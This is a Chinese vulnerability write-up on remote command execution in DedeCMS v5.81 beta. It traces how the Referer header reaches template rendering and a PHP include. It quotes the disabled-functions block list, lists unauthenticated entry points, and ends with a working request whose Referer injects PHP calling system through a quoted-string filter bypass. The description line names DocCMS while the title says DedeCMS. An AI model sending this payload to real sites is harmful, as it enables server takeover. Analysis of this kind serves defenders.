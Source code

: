 # DedeCMS common.func.php 远程命令执行漏洞

## 漏洞描述

DocCMS flink.php 文件存远程命令执行漏洞，攻击者通过漏洞可以执行任意命令

## 漏洞影响

<a-checkbox checked>DedeCMS v5.81 beta 内测版</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"DedeCMS_V5.8.1"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1633231738375-8b54ff36-5155-421a-aa24-4c89033cfe3a.png)

查看文件 `include/common.func.php` 的 ShowMsg方法

![img](../../../.vuepress/public/img/1633231813053-82d63b1c-5d89-4fa1-8d04-50fefc586ced.png)

```php
function ShowMsg($msg, $gourl, $onlymsg = 0, $limittime = 0)
{
    if (empty($GLOBALS['cfg_plus_dir'])) {
        $GLOBALS['cfg_plus_dir'] = '..';
    }
    if ($gourl == -1) {
        $gourl = isset($_SERVER['HTTP_REFERER']) ? $_SERVER['HTTP_REFERER'] : '';
        if ($gourl == "") {
            $gourl = -1;
        }
    }

    $htmlhead = "
    <html>\r\n<head>\r\n<title>DedeCMS提示信息</title>\r\n
    <meta http-equiv=\"Content-Type\" content=\"text/html; charset={dede:global.cfg_soft_lang/}\" />
    <meta name=\"viewport\" content=\"width=device-width, initial-scale=1, maximum-scale=1, user-scalable=no\">
    <meta name=\"renderer\" content=\"webkit\">
    <meta http-equiv=\"Cache-Control\" content=\"no-siteapp\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/pkg/uikit/css/uikit.min.css\" />
    <link rel=\"stylesheet\" type=\"text/css\" href=\"{dede:global.cfg_assets_dir/}/css/manage.dede.css\">
    <base target='_self'/>
    </head>
    <body>
    " . (isset($GLOBALS['ucsynlogin']) ? $GLOBALS['ucsynlogin'] : '') . "
    <center style=\"width:450px\" class=\"uk-container\">
    
    <div class=\"uk-card uk-card-small uk-card-default\" style=\"margin-top: 50px;\">
        <div class=\"uk-card-header\"  style=\"height:20px\">DedeCMS 提示信息！</div>

    <script>\r\n";
    $htmlfoot = "
    </script>
    
    
    </center>
    
    <script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit.min.js\"></script>
	<script src=\"{dede:global.cfg_assets_dir/}/pkg/uikit/js/uikit-icons.min.js\"></script>
    </body>\r\n</html>\r\n";

    $litime = ($limittime == 0 ? 1000 : $limittime);
    $func = '';

    if ($gourl == '-1') {
        if ($limittime == 0) {
            $litime = 3000;
        }

        $gourl = "javascript:history.go(-1);";
    }

    if ($gourl == '' || $onlymsg == 1) {
        $msg = "<script>alert(\"" . str_replace("\"", "“", $msg) . "\");</script>";
    } else {
        //当网址为:close::objname 时, 关闭父框架的id=objname元素
        if (preg_match('/close::/', $gourl)) {
            $tgobj = trim(preg_replace('/close::/', '', $gourl));
            $gourl = 'javascript:;';
            $func .= "window.parent.document.getElementById('{$tgobj}').style.display='none';\r\n";
        }

        $func .= "var pgo=0;
      function JumpUrl(){
        if(pgo==0){ location='$gourl'; pgo=1; }
      }\r\n";
        $rmsg = $func;
        $rmsg .= "document.write(\"<div style='height:130px;font-size:10pt;background:#ffffff'><br />\");\r\n";
        $rmsg .= "document.write(\"" . str_replace("\"", "“", $msg) . "\");\r\n";
        $rmsg .= "document.write(\"";

        if ($onlymsg == 0) {
            if ($gourl != 'javascript:;' && $gourl != '') {
                $rmsg .= "<br /><a href='{$gourl}'>如果你的浏览器没反应，请点击这里...</a>";
                $rmsg .= "<br/></div>\");\r\n";
                $rmsg .= "setTimeout('JumpUrl()',$litime);";
            } else {
                $rmsg .= "<br/></div>\");\r\n";
            }
        } else {
            $rmsg .= "<br/><br/></div>\");\r\n";
        }
        $msg = $htmlhead . $rmsg . $htmlfoot;
    }
    
    $tpl = new DedeTemplate();
    $tpl->LoadString($msg);
    $tpl->Display();
}

/**
 *  获取验证码的session值
 *
 * @return string
 */
```

![img](../../../.vuepress/public/img/1633232085348-587628d9-8cd6-404e-9376-197149b94d8e.png)

这里注意到 当 $gourl 变量为 -1 时调用 ShowMsg方法, 则请求参数 Referer 为用户可控参数

![img](../../../.vuepress/public/img/1633235322584-7cd49fee-230b-4109-b082-9185450ddf8b.png)

像下看，可以发现可控的变量传入两个方法

```php
$tpl = new DedeTemplate();
$tpl->LoadString($msg);
$tpl->Display();
```

追踪方法来到 `include/dedetemplate.class.php` 文件

![img](../../../.vuepress/public/img/1633235467775-2462bab3-0d80-4795-9e2f-c640086838cc.png)

ParseTemplate() 则是模版渲染的方法，再往下看

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

追踪一下 `WriteCache()` 方法

![img](../../../.vuepress/public/img/1633235811291-45805193-d5b0-4a77-8f5c-6aa028f2c5ec.png)

看 GetResult() 方法 和 CheckDisableFunctions() 方法

```php
public function GetResult()
    {
        if (!$this->isParse) {
            $this->ParseTemplate();
        }
        $addset = '';
        $addset .= '<' . '?php' . "\r\n" . 'if(!isset($GLOBALS[\'_vars\'])) $GLOBALS[\'_vars\'] = array(); ' . "\r\n" . '$fields = array();' . "\r\n" . '?' . '>';
        return preg_replace("/\?" . ">[ \r\n\t]{0,}<" . "\?php/", "", $addset . $this->sourceString);
    }
public function CheckDisabledFunctions($str, &$errmsg = '')
    {
        global $cfg_disable_funs;
        $cfg_disable_funs = isset($cfg_disable_funs) ? $cfg_disable_funs : 'phpinfo,eval,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,file_put_contents,fsockopen,fopen,fwrite';
        // 模板引擎增加disable_functions
        if (!defined('DEDEDISFUN')) {
            $tokens = token_get_all_nl($str);
            $disabled_functions = explode(',', $cfg_disable_funs);
            foreach ($tokens as $token) {
                if (is_array($token)) {
                    if ($token[0] = '306' && in_array($token[1], $disabled_functions)) {
                        $errmsg = 'DedeCMS Error:function disabled "' . $token[1] . '" <a href="http://help.dedecms.com/install-use/apply/2013/0711/2324.html" target="_blank">more...</a>';
                        return false;
                    }
                }
            }
        }
        return true;
    }
```

GetResult() 方法执行后返回的结果通过 CheckDisabledFunctions() 方法过滤后 经过Display() 的 `include $this->cacheFile;`

```php
public function Display()
    {
        global $gtmpfile;
        extract($GLOBALS, EXTR_SKIP);
        $this->WriteCache();
        include $this->cacheFile;
    }
```

此时我们就可以通过控制 Referer请求头，来控制模版的渲染，绕过 CheckDisabledFunctions()方法的过滤 造成远程命令执行

![img](../../../.vuepress/public/img/1633236858672-40917ea7-923b-41ea-aea1-755f8a8f6ad1.png)

通过正则找到受影响且无需身份认证的文件，来进行命令执行

```php
/plus/flink.php?dopost=save
/plus/users_products.php?oid=1337
/plus/download.php?aid=1337
/plus/showphoto.php?aid=1337
/plus/users-do.php?fmdo=sendMail
/plus/posttocar.php?id=1337
/plus/vote.php?dopost=view
/plus/carbuyaction.php?do=clickout
/plus/recommend.php
........
```

![img](../../../.vuepress/public/img/1633236356274-5f1db6df-d7e7-4373-8089-bbd1ec99bc4f.png)

这里利用没有过滤的双引号绕过 disables 禁止的函数

![img](../../../.vuepress/public/img/1633236516310-093329a4-a727-4328-ab22-cae8b14d2023.png)

漏洞请求包

```php
GET /plus/flink.php?dopost=save HTTP/1.1
Host:
Accept: */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.61 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: <?php "system"(ls);?>
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



若有收获，就点个赞吧
